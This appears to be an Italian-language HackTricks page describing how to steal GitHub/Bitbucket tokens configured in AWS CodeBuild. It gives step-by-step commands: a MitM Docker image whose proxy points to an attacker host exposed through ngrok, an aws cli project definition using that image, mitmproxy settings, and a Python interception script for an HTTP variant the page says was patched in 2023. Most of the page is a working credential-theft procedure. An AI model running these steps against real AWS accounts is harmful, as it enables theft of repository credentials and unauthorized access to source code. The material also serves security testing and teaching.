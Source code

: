 # AWS Codebuild - Perdita di Token

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recupera i Token Configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali di origine configurate che potresti perdere:
```bash
aws codebuild list-source-credentials
```
### Attraverso l'immagine Docker

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine Docker specifica** per eseguire la build del progetto.

A questo scopo, potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto semplice che imposterà le variabili di ambiente `https_proxy`, `http_proxy` e `SSL_CERT_FILE`. Ciò ti consentirà di intercettare la maggior parte del traffico dell'host indicato in `https_proxy` e `http_proxy` e di fidarti del CERT SSL indicato in `SSL_CERT_FILE`.

1. **Crea e carica la tua immagine Docker MitM**
* Segui le istruzioni del repository per impostare l'indirizzo IP del tuo proxy e impostare il tuo certificato SSL e **crea l'immagine Docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Puoi utilizzare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai creato l'immagine Docker, **caricala in un repository pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
* Imposta il progetto per utilizzare l'**immagine Docker generata in precedenza**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

* Come indicato nel **repository di Github**, puoi utilizzare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La versione di **mitmproxy utilizzata è la 9.0.1**, è stato segnalato che con la versione 10 potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

*   Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche da aws cli con qualcosa del genere

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Attraverso il protocollo HTTP~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento nella settimana del 20 febbraio 2023 (credo venerdì). Quindi un attaccante non può più sfruttarla :)**
{% endhint %}

Un attaccante con **permessi elevati su un CodeBuild potrebbe rivelare il token Github/Bitbucket** configurato o, se i permessi sono stati configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili d'ambiente **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Successivamente, modificare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Infine, eseguire l'esempio di base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili del proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, fai clic su **Build del progetto**, le **credenziali** verranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dal suo computer, elencare tutti i privilegi che ha e (ab)usarli più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF**, controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
